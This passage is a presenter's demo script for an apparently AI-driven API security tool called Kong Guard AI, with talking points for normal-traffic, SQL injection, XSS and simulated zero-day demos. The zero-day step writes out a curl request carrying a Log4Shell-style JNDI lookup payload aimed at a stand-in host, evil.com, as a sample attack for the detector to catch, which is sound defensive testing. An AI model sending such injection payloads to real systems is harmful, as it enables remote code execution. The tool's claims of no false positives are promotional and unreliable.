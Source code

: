 Key talking points:
- "This is Kong Guard AI - real AI-powered API protection, not rules"
- Point out the real-time metrics at the top
- Show the WebSocket connection indicator (green = live)
- Explain the AI engine panel on the left

### Act 2: Normal Traffic Demo (1 minute)

Click the **"Normal Traffic"** button several times.

Talking points:
- "Normal API requests flow through without issues"
- "Notice the low threat scores (green events)"
- "AI analyzes each request in under 100ms"
- "No false positives on legitimate traffic"

### Act 3: Attack Detection Demo (5 minutes)

#### SQL Injection
Click **"SQL Injection"** button.

Talking points:
- "Watch the AI thinking indicator spin"
- "AI detects the SQL pattern and blocks it"
- "Notice the threat score jumps to 0.95"
- "The reasoning shows exactly what was detected"

#### XSS Attack
Click **"XSS Attack"** button.

Talking points:
- "Cross-site scripting attempts are instantly detected"
- "AI understands context, not just patterns"
- "Even obfuscated attacks are caught"

#### Zero-Day Simulation
Run this command in terminal:
```bash
curl -X POST http://localhost:8000/analyze \
  -H "Content-Type: application/json" \
  -d '{"features":{"method":"POST","path":"/api/exploit","query":"","body":"{\"cmd\":\"${jndi:ldap://evil.com/a}\"}","client_ip":"203.0.113.100","user_agent":"Test","requests_per_minute":10,"content_length":50,"query_param_count":0,"header_count":5,"hour_of_day":14},"context":{}}'
```

Talking points:
- "This is a zero-day pattern - no rules exist for this"
- "AI recognizes the suspicious pattern structure"
- "This is where AI excels over traditional WAFs"

### Act 4: Automated Demo Sequence (3 minutes)

Run the automated demo:
```bash
./demo-scripts/automated-demo.sh
```
